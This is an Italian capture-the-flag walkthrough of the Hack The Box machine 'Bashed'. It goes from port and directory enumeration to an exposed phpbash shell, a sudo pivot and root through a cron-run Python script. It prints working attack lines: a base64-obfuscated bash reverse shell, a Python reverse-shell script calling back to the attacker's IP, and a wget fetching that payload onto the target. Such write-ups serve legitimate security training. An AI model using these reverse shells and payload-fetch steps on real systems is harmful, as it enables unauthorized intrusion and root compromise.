 ```yaml
---
title: "Bashed Walkthrough"
description: "Bashed è una macchina abbastanza easy che si concentra principalmente sul fuzzing e sull'individuazione di file importanti. L'accesso base al crontab è limitato."
author: dua2z3rr
date: 2025-08-25 1:00:00
categories: [Machines]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Web Application", "Vulnerabilità: OS Command Injection", "Vulnerabilità: File System Configuration", "Vulnerabilità: Code Execution"]
image: /assets/img/bashed/bashed-resized.png"
---
```


## Enumerazione Esterna

### Nmap

Cominciamo con un nmap.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.68 -vv -p-
<SNIP>
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.68 -vv -p 80 -sC -sV
<SNIP>
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### HTTP

![Desktop View](/assets/img/bashed/bashed-home-page.png)

Esploriamo il sito. Notiamo subito che il sito è chiamato `Arrexel's Development Site`. Potremmo utilizzare Arrexel come user name più avanti.

![Desktop View](/assets/img/bashed/bashed-phpbash.png)

Grazie a questo abbiamo la certezza di cosa dobbiamo exploitare. Continuiamo a leggere per ultieriori indizi su **phpbash**

![Desktop View](/assets/img/bashed/bashed-passwd.png)

Abbiamo anche uno screenshot del file `/etc/passwd`. Da questo vediamo la presenza di selinux (Security Enhanced Linux), un mandatory access control per linux.

Infine, Abbiamo un link della pagina github del progetto precedente: <https://github.com/Arrexel/phpbash>. L'ultima commit si chiama **Patch XSS vuln**. Controlliamo le modifiche applicate.

![Desktop View](/assets/img/bashed/bashed-last-commit-text-comparison.png)

Esiste anche un issue dove viene reportato un modo per applicare una vulnerabilità XSS.

![Desktop View](/assets/img/bashed/bashed-xss.png)

Quindi, sappiamo che phpbash è una semi-interactive shell è che è stata installata sul target ip. Magari si trova in una directory specifica, proviamo a fare fuzzing per trovarla.

### FFUF

```shell
┌─[dua2z3rr@parrot]─[~/SecLists/Discovery/Web-Content]
└──╼ $ffuf -w DirBuster-2007_directory-list-2.3-big.txt:FUZZ -u http://bashed.htb/FUZZ -recursion -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bashed.htb/FUZZ
 :: Wordlist         : FUZZ: /home/dua2z3rr/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 43ms]
[INFO] Adding a new job to the queue: http://bashed.htb/images/FUZZ

                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 44ms]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 44ms]
[INFO] Adding a new job to the queue: http://bashed.htb/uploads/FUZZ

php                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 41ms]
[INFO] Adding a new job to the queue: http://bashed.htb/php/FUZZ

css                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 41ms]
[INFO] Adding a new job to the queue: http://bashed.htb/css/FUZZ

dev                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 67ms]
[INFO] Adding a new job to the queue: http://bashed.htb/dev/FUZZ

js                      [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 49ms]
[INFO] Adding a new job to the queue: http://bashed.htb/js/FUZZ

fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 40ms]
[INFO] Adding a new job to the queue: http://bashed.htb/fonts/FUZZ
```

Se entriamo in ogni cartella manualmente, troveremo nella directory `dev` la repository di github precedente.

Basta cliccare su phpbash.php per ottenere una shell come `www-data`. Andiamo nella home directory di `arrexel` e ottenere la user flag.

## Shell come www-data

### Enumerazione interna

Attraverso il comando `sudo -l` possiamo vedere che abbiamo il permesso di usare qualsiasi comando essendo lo user `scriptmanager`.

![Desktop View](/assets/img/bashed/bashed-sudo-l.png)

Per comodità, otteniamo una reverse shell.

```shell
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx | base64 -d | bash
```

Ora diventiamo `scriptmanager`.

```shell
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
bash: cannot set terminal process group (809): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/home/arrexel$ 
<SNIP>
scriptmanager@bashed:/$ ls -al
ls -al
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 Aug 24 23:07 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 181 root          root              0 Aug 24 23:07 proc
drwx------   3 root          root           4096 Aug 24 23:08 root
drwxr-xr-x  18 root          root            500 Aug 24 23:07 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug 25 03:08 sys
drwxrwxrwt  10 root          root           4096 Aug 25 04:05 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Vediamo una cartella accessibile solo da `scriptmanager`. All'interno esiste il file `test.py` che scrive un file. vediamo che il file creato è di proprietà di root. Possiamo dedurre che il programma venga eseguito da root. Modifichiamo il programma per ottenere una reverse shell come root.

Sulla nostra macchina:

```shell
┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $cat test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.9",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

> È importante togliere i punti e virgola e andare a capo! sono rimasto bloccato per molto tempo!
{: .prompt-tip }

Macchina target:

```shell
scriptmanager@bashed:/scripts$ rm test.py; wget http://10.10.16.9:8000/test.py
```

Nostra macchina:

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/SecLists/Discovery/DNS]
└──╼ $nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.10.68 41560
/bin/sh: 0: can't access tty; job control turned off
# cd /root
```

Terminiamo la box prendendo la root flag.
